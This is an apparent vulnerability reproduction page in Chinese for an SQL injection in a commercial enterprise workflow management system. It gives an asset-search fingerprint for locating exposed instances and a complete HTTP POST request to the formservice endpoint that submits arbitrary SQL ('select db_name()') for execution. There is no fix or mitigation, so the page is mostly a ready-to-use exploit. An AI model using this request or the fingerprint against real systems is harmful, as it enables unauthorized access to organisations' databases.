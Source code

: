 # 时空智友企业流程化管控系统formserverSQL注入漏洞

# 一、漏洞简介
时空智友企业流程化管控系统是一个用于企业流程管理和控制的软件系统。它旨在帮助企业实现流程的规范化、自动化和优化，从而提高工作效率、降低成本并提升管理水平。时空智友企业流程化管控系统存在SQL注入漏洞，攻击者通过恶意构造的SQL查询来执行未经授权的数据库操作。当应用程序未能正确验证、转义或过滤用户提供的输入数据时，攻击者可以利用这个漏洞来执行恶意的SQL语句，从而绕过应用程序的访问控制和执行非法操作。

# 二、影响版本
+ 时空智友企业流程化管控系统

# 三、资产测绘
+ hunter`web.icon=="2464cbce5dd2681dd4fb62d055520d78"`
+ 登录页面

![1693803612908-2a0fea76-532f-4ba1-87fa-4fc6bfae5cf3.png](./img/BCjbZh9dZ-Y2DPX1/1693803612908-2a0fea76-532f-4ba1-87fa-4fc6bfae5cf3-910348.png)

# 四、漏洞复现
```plain
POST /formservice?service=workflow.sqlResult HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=123D902C244908C8DA7E61657166AA09; __qypid=""
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 50

{"params": {"a": "11"}, "sql": "select db_name()"}
```

![1693804111348-8e2c5b0f-d232-4a2a-8247-6c750648a466.png](./img/BCjbZh9dZ-Y2DPX1/1693804111348-8e2c5b0f-d232-4a2a-8247-6c750648a466-301099.png)



> 更新: 2024-02-29 23:55:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fg34lg8tq11uy1kp>